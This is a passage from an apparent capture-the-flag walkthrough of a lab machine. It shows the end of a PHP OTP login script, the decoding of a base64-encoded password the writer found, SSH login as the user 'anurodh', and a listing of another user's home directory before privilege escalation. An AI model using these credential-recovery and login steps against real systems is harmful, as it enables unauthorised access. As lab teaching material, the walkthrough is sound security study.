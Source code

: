   ```
                                  {
                                          $otp = $_POST["otp"];
                                          if($otp == $random)
                                          {
                                                  echo "Welcome Anurodh!";
                                                  header("Location: authenticated.php");
                                          }
                                          else
                                          {
                                                  echo "Invalid OTP";
                                          }
                                  }
                  }
                  else
                  {
                          echo "Invalid Username or Password";
                  }
          }
  ?>
  </html>
  ```

- This is exactly what we need, decode the password and login as Anurodh with SSH.

  ```
  echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
  !d0ntKn0wmYp@ssw0rd 
  
  ssh anurodh@10.10.129.112
  
  anurodh@ubuntu:~$ whoami
  anurodh
  anurodh@ubuntu:~$ id
  uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
  ```

- OK, I found the first flag, but couldn't read it, so I escalated to root first.

  ```
  anurodh@ubuntu:/home/apaar$ ls -al
  total 44
  drwxr-xr-x 5 apaar apaar 4096 Oct  4  2020 .
  drwxr-xr-x 5 root  root  4096 Oct  3  2020 ..
  -rw------- 1 apaar apaar    0 Oct  4  2020 .bash_history
  -rw-r--r-- 1 apaar apaar  220 Oct  3  2020 .bash_logout
  -rw-r--r-- 1 apaar apaar 3771 Oct  3  2020 .bashrc
  drwx------ 2 apaar apaar 4096 Oct  3  2020 .cache
  drwx------ 3 apaar apaar 4096 Oct  3  2020 .gnupg
  -rwxrwxr-x 1 apaar apaar  286 Oct  4  2020 .helpline.sh
  -rw-rw---- 1 apaar apaar   46 Oct  4  2020 local.txt
  -rw-r--r-- 1 apaar apaar  807 Oct  3  2020 .profile
  drwxr-xr-x 2 apaar apaar 4096 Oct  3  2020 .ssh
  -rw------- 1 apaar apaar  817 Oct  3  2020 .viminfo
  ```

---